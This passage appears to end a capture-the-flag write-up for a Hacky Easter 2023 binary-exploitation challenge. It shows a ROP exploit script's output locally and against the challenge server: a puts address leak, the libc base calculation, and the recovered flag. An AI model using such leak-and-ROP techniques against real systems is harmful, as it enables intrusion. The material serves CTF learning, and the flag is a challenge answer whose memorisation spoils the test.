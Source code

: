 now i tried it locally and it magically worked!

```
$ python3 solve.py 
[+] Starting local process './main': pid 3732
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

puts leak: 0x7f3ea2e3c820
calculates libc base: 0x7f3ea2dc5000
libc open: 0x7f3ea2ebcd50
[*] Switching to interactive mode
 testflag

Are you a master of ROP?
Show me what you can do: $ 
[*] Got EOF while reading in interactive
$ 
[*] Process './main' stopped with exit code -11 (SIGSEGV) (pid 3732)
[*] Got EOF while sending in interactive
```

now i also took the libc gadget offsets for the remote libc and just tried it, and it actually worked!!!

```
$ python3 solve.py 
[+] Opening connection to ch.hackyeaster.com on port 2314: Done
[*] '/root/Documents/CTFs/HackyEaster/Hacky_Easter_2023/Level7/Thumpers_PWN_Ring_2/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

puts leak: 0x7fb1ffceb970
calculates libc base: 0x7fb1ffc6b000
libc open: 0x7fb1ffd7abf0
[*] Switching to interactive mode
 Unfortunately, no one can be told what the Matrix is.
You have to see it for yourself.
This is your last chance.
After this there is no turning back.

Here is your flag:

he2023{N0t_bad_y0u_bypa$$ed_th3_s3c_f1lt3r}


Are you a master of ROP?
Show me what you can do: $ 
timeout: the monitored command dumped core
[*] Got EOF while reading in interactive
$ 
$ 
[*] Closed connection to ch.hackyeaster.com port 2314
[*] Got EOF while sending in interactive
```

# FLAG: he2023{N0t_bad_y0u_bypa$$ed_th3_s3c_f1lt3r}
